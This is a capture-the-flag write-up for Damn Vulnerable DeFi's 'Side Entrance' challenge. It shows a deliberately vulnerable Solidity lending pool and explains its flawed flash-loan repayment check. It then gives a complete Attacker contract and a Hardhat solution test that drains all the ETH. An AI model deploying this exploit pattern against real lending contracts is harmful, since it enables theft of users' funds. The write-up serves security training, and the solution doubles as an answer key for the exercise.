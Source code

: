 # Side Entrance

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    mapping(address => uint256) private balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        
        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
}
```

## Goal

Take all ETH from the SideEntranceLenderPool contract

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

The vulnerable part of the contract is in the following check:

```
if (address(this).balance < balanceBefore)
            revert RepayFailed();
```
The code is checking if the balance in the lending pool is the same as before taking the flash loan, but does not check who this balance belongs to.

In our Attacker contract we can call the flashLoan() function, and on the execute() callback function we can deposit the funds back to the SideEntranceLenderPool, only this time the funds will belong to the Attacker contract.

To exploit the contract we need to:

1. create Attacker contract, this contract will be inheriting IFlashLoanEtherReceiver interface and must have execute() function implemented, we need to create instance from the SideEntranceLenderPool contract inside Attacker
2. create makeFlashLoan() external function, inside this funciton we will call flashLoan() from the pool contract
3. create execute() function, this will be callback function that must be implemented, since the Attacker contract is inheriting the IFlashLoanEtherReceiver interface
  <ul>
  <li>inside this function we will call the deposit() function from the pool contract</li>
  </ul>
4. create withdraw() external function, inside it we will:
  <ul>
  <li>call the withdraw() function from the pool contract</li>
  <li>transfer the funds to our account</li>
  </ul>

## Attacker contract code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { SideEntranceLenderPool } from "./SideEntranceLenderPool.sol";
import { IFlashLoanEtherReceiver } from "./SideEntranceLenderPool.sol";

contract Attacker is IFlashLoanEtherReceiver {
    event Log(string func, uint gas);

    SideEntranceLenderPool private immutable pool;

    constructor(SideEntranceLenderPool _pool) {
        pool = SideEntranceLenderPool(_pool);
    }

    function execute() external payable override {
        pool.deposit{value: msg.value}();
    }

    function withdraw() external {
        pool.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    function makeFlashLoan() external {
        pool.flashLoan(address(pool).balance);
    }

    fallback() external payable {
        // send / transfer (forwards 2300 gas to this fallback function)
        // call (forwards all of the gas)
        emit Log("fallback", gasleft());
    }

    receive() external payable {
        emit Log("receive", gasleft());
    }
}
```

## Solution code

```
const { ethers } = require('hardhat');
const { expect } = require('chai');
const { setBalance } = require('@nomicfoundation/hardhat-network-helpers');

describe('[Challenge] Side entrance', function () {
    let deployer, player;
    let pool;

    const ETHER_IN_POOL = 1000n * 10n ** 18n;
    const PLAYER_INITIAL_ETH_BALANCE = 1n * 10n ** 18n;

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, player] = await ethers.getSigners();

        // Deploy pool and fund it
        pool = await (await ethers.getContractFactory('SideEntranceLenderPool', deployer)).deploy();
        await pool.deposit({ value: ETHER_IN_POOL });
        expect(await ethers.provider.getBalance(pool.address)).to.equal(ETHER_IN_POOL);

        // Player starts with limited ETH in balance
        await setBalance(player.address, PLAYER_INITIAL_ETH_BALANCE);
        expect(await ethers.provider.getBalance(player.address)).to.eq(PLAYER_INITIAL_ETH_BALANCE);

    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        attacker = await (await ethers.getContractFactory('Attacker', player)).deploy(pool.address);

        await attacker.connect(player).makeFlashLoan();

        await attacker.connect(player).withdraw();
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // Player took all ETH from the pool
        expect(await ethers.provider.getBalance(pool.address)).to.be.equal(0);
        expect(await ethers.provider.getBalance(player.address)).to.be.gt(ETHER_IN_POOL);
    });
});
```

